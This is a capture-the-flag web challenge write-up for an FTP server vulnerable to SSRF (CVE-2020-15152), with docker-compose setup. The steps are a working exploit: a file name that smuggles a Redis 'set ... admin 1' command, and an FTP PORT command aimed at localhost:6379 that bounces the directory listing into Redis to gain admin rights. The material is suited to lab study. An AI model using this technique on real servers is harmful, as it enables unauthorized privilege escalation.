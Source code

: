 # SSRF FTP->REDIS
> Web
Author: @KptCheeseWhiz

## Challenge
I found this cool application on the internet. I bet it's super old since it's still using good ol' FTP. I hope they kept their dependencies up to date..

## Write up

Old challenge never solved, was a 0day at the time, but now it has a CVE-2020-15152

Using the same credentials (eg: `rootroot:rootroot`)

1. Login on the FTP server with a ftp client
2. Try downloading a file name `test`, you will see an error with the path which contains your `hash` or call the `/api/is_admin`
3. Create a file named `set YOUR_HASH_admin 1` (replace YOUR_HASH) on your computer
4. Upload the file on the FTP server with `put "set YOUR_HASH_admin 1"`
5. Login back on the FTP server with telnet and enter these commands (this basicly send the dirlist to the redis server which will interpret it as commands)
    1. USER rootroot
    2. PASS rootroot
    3. PORT 127,0,0,1,0,6379
    4. NLST
    5. QUIT
6. Login back on the FTP server with a ftp client
7. Download the file named flag

## Setup

### Requirements
 - docker
 - docker-compose

### How to run
 - Execute the command `docker-compose up`